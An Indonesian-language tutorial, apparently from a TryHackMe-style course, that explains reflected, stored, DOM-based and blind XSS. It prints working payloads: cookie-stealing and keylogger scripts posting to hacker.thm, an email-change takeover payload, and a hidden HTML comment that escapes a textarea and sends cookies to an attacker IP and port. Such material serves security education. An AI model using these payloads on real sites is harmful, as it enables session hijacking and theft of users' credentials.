





# XSS (Cross-site Scripting)

## Introduction

**Prasyarat:** Perlu dicatat bahwa XSS didasarkan pada JavaScript, sehingga pengetahuan dasar akan bahasa tersebut akan sangat membantu. Dan akan membantu juga jika kita sudah memahami dasar konsep mengenai Client-Server request dan response.

Cross-Site Scripting, lebih dikenal sebagai XSS di komunitas keamanan siber, diklasifikasikan sebagai serangan injeksi di mana JavaScript berbahaya disuntikkan ke dalam aplikasi web dengan tujuan untuk dieksekusi oleh pengguna lain.

Kerentanan skrip lintas situs sangat umum, bahkan XSS juga masih terdapat pada aplikasi besar. Kita bisa mendapatkan bayaran yang besar jika menemukan kerentanan tersebut dan melaporkannya. 

## XSS Payload

### What is a payload?

Di XSS, payload adalah kode JavaScript yang ingin kita jalankan di komputer target. Ada dua bagian payload, tujuan dan modifikasi.

Tujuan adalah apa yang kita ingin JavaScript benar-benar lakukan, dan modifikasi adalah perubahan pada kode yang kita butuhkan untuk membuatnya dijalankan karena setiap skenario berbeda.

Berikut adalah contoh tujuan XSS:

- **Membuktikan apakah vulnerable terhadap XSS**

Ini adalah payload paling sederhana di mana semua yang ingin kita lakukan adalah menunjukkan bahwa kita dapat melakukan XSS di situs web. Ini sering dilakukan dengan menyebabkan kotak peringatan muncul di halaman dengan string teks, misalnya:

```html
<script>alert('XSS');</script>
```

- **Mencuri data Session**

Detail sesi pengguna, seperti token login, sering kali disimpan dalam cookie di mesin target. JavaScript di bawah ini mengambil cookie target, base64 mengkodekan cookie untuk memastikan transmisi berhasil dan kemudian mempostingnya ke situs web di bawah kendali hacker untuk dicatat. Setelah hacker memiliki cookie ini, mereka dapat mengambil alih sesi target dan login pengguna tersebut.

```html
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

- **Key Logger**

Kode di bawah ini bertindak sebagai Key Logger. Ini berarti apa pun yang kita ketik di halaman web akan diteruskan ke situs web di bawah kendali hacker. Ini bisa sangat merusak jika situs web payload dipasang pada login pengguna yang diterima atau detail kartu kredit.

```html
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

- **Bussiness Logic**

Payload ini jauh lebih spesifik daripada contoh di atas. Ini tentang memanggil sumber daya jaringan tertentu atau fungsi JavaScript. Misalnya, bayangkan fungsi JavaScript untuk mengubah alamat email pengguna yang disebut `user.changeEmail()`. Payload Anda bisa terlihat seperti ini:

```html
<script>user.changeEmail('attacker@hacker.thm');</script>
```

Sekarang alamat email untuk akun telah berubah, penyerang dapat melakukan serangan reset password.

## Reflected XSS 

Reflected XSS terjadi ketika data yang disediakan pengguna dalam permintaan HTTP disertakan dalam sumber halaman web tanpa validasi apa pun.

**Contoh Skenario :**

Situs web yang jika kita memasukkan input yang salah, pesan kesalahan akan ditampilkan. Konten pesan kesalahan diambil dari parameter kesalahan dalam string kueri dan dibangun langsung ke sumber halaman.



Aplikasi tidak memeriksa konten parameter kesalahan, yang memungkinkan penyerang memasukkan kode berbahaya.



Kerentanan dapat digunakan sesuai skenario pada gambar di bawah ini:



**Dampak Pontensial**

Penyerang dapat mengirim tautan atau menyematkannya ke dalam iframe di situs web lain yang berisi muatan JavaScript kepada calon korban agar mereka mengeksekusi kode di browser mereka, yang berpotensi mengungkapkan informasi session atau yang lainnya.

**Cara menguji Reflected XSS**

- Parameter dalam String Kueri URL
- URL File Path
- HTTP Header (Meski dalam praktiknya hampir tidak mungkin dieksploitasi)

Setelah kita menemukan beberapa data yang tercermin dalam aplikasi web, kita harus mengonfirmasi bahwa kita dapat menjalankan muatan JavaScript dengan sukses;.Payload kita akan tergantung pada di mana dalam aplikasi kode kita direfleksikan

## Stored XSS

Seperti namanya, Stored XSS disimpan di aplikasi web (dalam database, misalnya) dan kemudian dijalankan ketika pengguna lain mengunjungi situs atau halaman web.

**Contoh Skenario**

Sebuah situs blog yang memungkinkan pengguna untuk mengirim komentar. Sayangnya, komentar ini tidak diperiksa apakah berisi JavaScript atau menyaring kode berbahaya apa pun. Jika sekarang kita memposting komentar yang berisi JavaScript, ini akan disimpan dalam database, dan setiap pengguna lain yang sekarang mengunjungi artikel akan menjalankan JavaScript di browser mereka.



**Dampak Potensial**

JavaScript dapat mengarahkan pengguna ke situs lain, mencuri cookie sesi pengguna, atau melakukan tindakan situs web lain saat bertindak sebagai pengguna yang berkunjung.

**Cara menguji Stored XSS**

- Komentar di blog
- Informasi profil pengguna
- Daftar Situs Web

Terkadang pengembang berpikir membatasi nilai input di sisi klien adalah perlindungan yang cukup baik, jadi mengubah nilai menjadi sesuatu yang tidak diharapkan oleh aplikasi web adalah sumber yang baik untuk menemukan XSS yang tersimpan, misalnya, bidang usia yang mengharapkan bilangan bulat dari menu tarik-turun, tetapi sebaliknya, kita mengirim permintaan secara manual daripada menggunakan formulir yang memungkinkan kita mencoba muatan berbahaya.

## DOM Based XSS

DOM adalah singkatan dari Document Object Model dan merupakan antarmuka pemrograman untuk dokumen HTML dan XML. Ini mewakili halaman sehingga program dapat mengubah struktur, gaya, dan konten dokumen. Halaman web adalah dokumen, dan dokumen ini dapat ditampilkan di jendela browser atau sebagai sumber HTML. Diagram DOM HTML ditampilkan di bawah ini:



Jika ingin mempelajari lebih lanjut tentang DOM dan mendapatkan pemahaman yang lebih dalam, [w3.org](https://www.w3.org/TR/REC-DOM-Level-1/introduction.html) memiliki sumber yang bagus.

**Exploit the DOM**

XSS Berbasis DOM adalah tempat eksekusi JavaScript terjadi langsung di browser tanpa ada halaman baru yang dimuat atau data dikirimkan ke kode backend. Eksekusi terjadi ketika kode JavaScript situs web bertindak atas input atau interaksi pengguna.

**Contoh Skenario**

JavaScript situs web mendapatkan konten dari parameter `window.location.hash` dan kemudian menulisnya ke halaman di bagian yang sedang dilihat. Isi hash tidak diperiksa untuk kode berbahaya, memungkinkan penyerang untuk menyuntikkan JavaScript yang mereka pilih ke halaman web.

**Dampak Potential**

Mengarahkan mereka ke situs web lain atau mencuri konten dari halaman atau session pengguna.

**Cara menguji DOM Based XSS**

DOM Based XSS dapat menjadi tantangan untuk diuji dan memerlukan sejumlah pengetahuan JavaScript untuk membaca kode sumber. Kita perlu mencari bagian kode yang mengakses variabel tertentu yang dapat dikontrol oleh penyerang, seperti parameter `window.location.x`.

Ketika kita telah menemukan potongan kode tersebut, kita perlu melihat bagaimana mereka ditangani dan apakah nilainya pernah ditulis ke DOM halaman web atau diteruskan ke metode JavaScript yang tidak aman seperti `eval()`.
<!-- </textarea><script>new Image().src='http://{your ip here}:{your port here i.e 4444}/hacked.php?output='+document.cookie;</script> -->

## Blind XSS

Blind XSS mirip dengan Stored XSS di mana payload kita disimpan di situs web untuk dilihat pengguna lain, tetapi dalam hal ini, kita tidak dapat melihat payload berfungsi atau dapat mengujinya melawan diri sendiri terlebih dahulu.

**Contoh Skenario**

Sebuah situs web memiliki formulir kontak tempat kita dapat mengirim pesan kepada anggota staf. Konten pesan tidak diperiksa untuk kode berbahaya apa pun, yang memungkinkan penyerang memasukkan apa pun yang mereka inginkan. Pesan-pesan ini kemudian diubah menjadi tiket dukungan yang dilihat staf di portal web pribadi.

**Dampak Potential**

Dengan menggunakan payload yang benar, JavaScript penyerang dapat melakukan panggilan kembali ke situs web penyerang, mengungkapkan URL portal staf, cookie anggota staf, dan bahkan konten halaman portal yang sedang dilihat. Sekarang penyerang berpotensi membajak session anggota staf dan memiliki akses ke portal pribadi.

**Cara menguji Blind XSS**

Saat menguji kerentanan Blind XSS, kita perlu memastikan bahwa muatan kita memiliki panggilan balik (biasanya permintaan HTTP). Dengan cara ini, kita tahu jika dan kapan kode kita dieksekusi.

Alat populer untuk serangan Blind XSS adalah [xsshunter](https://xsshunter.com/). Meskipun dimungkinkan untuk membuat alat kita sendiri dalam JavaScript, alat ini akan secara otomatis menangkap cookie, URL, konten halaman, dan lainnya.